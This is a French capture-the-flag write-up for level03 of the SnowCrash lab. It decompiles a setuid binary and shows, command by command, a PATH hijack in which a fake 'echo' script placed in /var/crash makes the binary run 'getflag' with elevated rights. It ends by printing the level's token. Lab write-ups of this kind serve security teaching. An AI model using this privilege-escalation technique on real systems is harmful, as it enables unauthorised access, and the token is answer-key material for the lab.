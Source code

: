 
# **Level 03**

Pour ce level03, nous avons un executable dans le dossier courant appartenant a flag03 et que l'on peux executer avec les droits de flag03 -rw`s`r-`s`-r-x (le `s` signifiant de l'executer avec les droits du owner du fichier)

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Lorsque l'on execute le fichier on a cette output:

```
level03@SnowCrash:~$ ./level03 
Exploit me
```

On decide d'utiliser un decompiler de fichier pour essayer de comprendre le code qu'il execute donc avec scp on recupere le fichier et on le mets sur ce site :

[Decompiler explorer](https://dogbolt.org/)

```
scp -P 4242 level03@192.168.56.104:level03 Downloads 
```

On recupere donc ce code

```
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

On vois que le programme fais un appel a `echo` directement en passant par le PATH du terminal donc nous ecrivons un fichier `/var/crash/echo` contenant l'instruction `getflag` et lui donnons les droits d'executions

```
level03@SnowCrash:/var/crash$ touch echo
level03@SnowCrash:/var/crash$ echo getflag > echo
level03@SnowCrash:/var/crash$ cat echo
getflag
level03@SnowCrash:/var/crash$ chmod 777 echo
```

Nous modifions le PATH pour appeler notre echo

```
export PATH=/var/crash:$PATH
```

Nous executons `level03`

```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


> ### NEXT : [Level 04](https://github.com/Seriots/snowcrash/tree/master/level04/resources/README.md)
